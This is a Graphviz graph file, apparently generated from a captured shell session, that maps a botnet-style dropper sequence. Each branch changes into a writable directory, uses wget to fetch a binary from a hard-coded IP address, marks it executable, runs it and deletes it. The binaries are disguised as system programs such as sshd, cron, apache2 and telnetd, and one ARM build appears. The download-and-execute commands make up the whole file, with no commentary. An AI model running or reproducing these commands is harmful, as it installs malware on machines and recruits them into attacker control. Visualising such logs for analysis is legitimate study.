 digraph {
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 10 [label="||,"];
10 [label="wget http://104.236.227.147/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 28 [label="||,"];
28 [label="wget http://104.236.227.147/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 46 [label="||,"];
46 [label="wget http://104.236.227.147/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 64 [label="||,"];
64 [label="wget http://104.236.227.147/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 82 [label="||,"];
82 [label="wget http://104.236.227.147/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 100 [label="||,"];
100 [label="wget http://104.236.227.147/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 118 [label="||,"];
118 [label="wget http://104.236.227.147/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 136 [label="||,"];
136 [label="wget http://104.236.227.147/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 154 [label="||,"];
154 [label="wget http://104.236.227.147/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 172 [label="||,"];
172 [label="wget http://104.236.227.147/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 190 [label="||,"];
190 [label="wget http://104.236.227.147/[cpu] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [cpu] "];
192 -> 194 [label=";,"];
194 [label="./[cpu] "];
194 -> 196 [label=";,"];
196 [label="rm -rf [cpu] "];
196 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 208 [label="||,"];
208 [label="wget http://104.236.227.147/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 226 [label="||,"];
226 [label="wget http://104.236.227.147/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 232 [label=";,"];
232 [label="rm -rf telnetd "];
232 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 244 [label="||,"];
244 [label="wget http://104.236.227.147/a "];
244 -> 246 [label=";,"];
246 [label="chmod +x a "];
246 -> 248 [label=";,"];
248 [label="./a "];
248 -> 250 [label=";,"];
250 [label="rm -rf a "];
250 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 262 [label="||,"];
262 [label="wget http://104.236.227.147/b.arm5 "];
262 -> 264 [label=";,"];
264 [label="chmod +x b.arm5 "];
264 -> 266 [label=";,"];
266 [label="./b.arm5 "];
266 -> 267 [label=";,"];
}
